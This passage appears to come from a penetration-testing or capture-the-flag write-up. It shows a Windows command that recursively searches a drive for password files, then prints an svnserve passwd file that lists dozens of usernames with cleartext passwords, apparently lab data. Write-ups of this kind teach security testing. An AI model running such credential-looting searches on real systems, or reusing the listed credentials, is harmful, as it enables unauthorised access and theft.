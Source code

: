 Using a [Guifre](https://guif.re/windowseop#EoP%203:%20ClearText%20passwords%20(quick%20hits)) technique to quickly loot password I found a promising file:

```
c:\windows\system32\inetsrv>dir w:\ /s /b | findstr /si pass*
...
w:\svnrepos\www\conf\passwd

c:\windows\system32\inetsrv>cat w:\svnrepos\www\conf\passwd
### This file is an example password file for svnserve.
### Its format is similar to that of svnserve.conf. As shown in the
### example below it contains one section labelled [users].
### The name and password for each user follow, one account per line.

[users]
nathen = wendel98
nichin = fqerfqerf
nichin = asifhiefh
noahip = player
nuahip = wkjdnw
oakhol = bxwdjhcue
owehol = supersecret
paihol = painfulcode
parhol = gitcommit
pathop = iliketomoveit
pauhor = nowayjose
payhos = icanjive
perhou = elvisisalive
peyhou = ineedvacation
phihou = pokemon
quehub = pickme
quihud = kindasecure
rachul = guesswho
raehun = idontknow
ramhun = thisis
ranhut = getting
rebhyd = rediculous
reeinc = iagree
reeing = tosomepoint
reiing = isthisenough
renipr = dummy
rhiire = users
riairv = canyou
ricisa = seewhich
robish = onesare
robisl = wolves11
robive = andwhich
ronkay = onesare
rubkei = the
rupkel = sheeps
ryakel = imtired
sabken = drjones
samken = aqua
sapket = hamburger
sarkil = friday
```

